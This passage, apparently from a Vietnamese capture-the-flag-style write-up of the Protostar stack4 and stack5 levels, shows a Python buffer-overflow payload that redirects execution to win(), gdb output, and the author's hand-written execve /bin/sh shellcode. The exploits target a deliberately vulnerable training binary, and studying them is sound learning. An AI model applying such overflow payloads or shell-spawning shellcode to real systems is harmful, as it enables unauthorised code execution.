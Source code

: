 ```
) at stack4/stack4.c:16
16	stack4/stack4.c: No such file or directory.
	in stack4/stack4.c
(gdb) x/2x $ebp
0x53535353:	Cannot access memory at address 0x53535353  <-- 'SSSS'
```
Tiếp theo là tìm địa chỉ của `win()`:

Từ đó mình đã viết file payload:
```
import struct
pd = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU'
winadd = struct.pack("I",0x080483f4)
payload = pd + winadd
print payload
```
Và boom:
```
user@protostar:/opt/protostar/bin$ python /tmp/payload.py > /tmp/payload_st4_final
user@protostar:/opt/protostar/bin$ cat /tmp/payload_st4_final | ./stack4 
code flow successfully changed
Segmentation fault
user@protostar:/opt/protostar/bin$ 
```

# 6. Stack5  
## Source code  
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
Stack 5 đã giới thiệu tới shellcode. Thì shellcode là:  
```
Shellcode còn được gọi là bytecode, tạm dịch là mã máy. Chúng ta đều biết mã máy là thứ ngôn ngữ duy nhất mà bộ vi xử lí có thể hiểu được. Tất cả các chương trình viết bằng bất kì ngôn ngữ nào đều phải được biên dịch sang mã máy trước khi máy tính có thể chạy được chương trình đó. Khác với các chương trình này, shellcode được thể hiện như một nhóm các mã máy, do đó máy tính có thể hiểu và thực thi trực tiếp shellcode mà không cần phải trải qua bất kì công đoạn biên dịch nào cả.
```
*Trích nguồn copy trên mạng :v*  
Thay vì dùng shellcode có sẵn, mình đã tự viết 1 shellcode để xuất shell(sau khi tìm hiểu về cách viết shellcode :>). source code `nasm`:  
```
08049000 <_start>:
 8049000:	31 c0                	xor    %eax,%eax
 8049002:	50                   	push   %eax
 8049003:	68 2f 2f 73 68       	push   $0x68732f2f  <-- hs//
 8049008:	68 2f 62 69 6e       	push   $0x6e69622f  <-- nib/
 804900d:	89 e3                	mov    %esp,%ebx
 804900f:	31 d2                	xor    %edx,%edx
 8049011:	31 c9                	xor    %ecx,%ecx
 8049013:	b0 0b                	mov    $0xb,%al 	<-- call execv
 8049015:	cd 80                	int    $0x80
 8049017:	31 db                	xor    %ebx,%ebx
```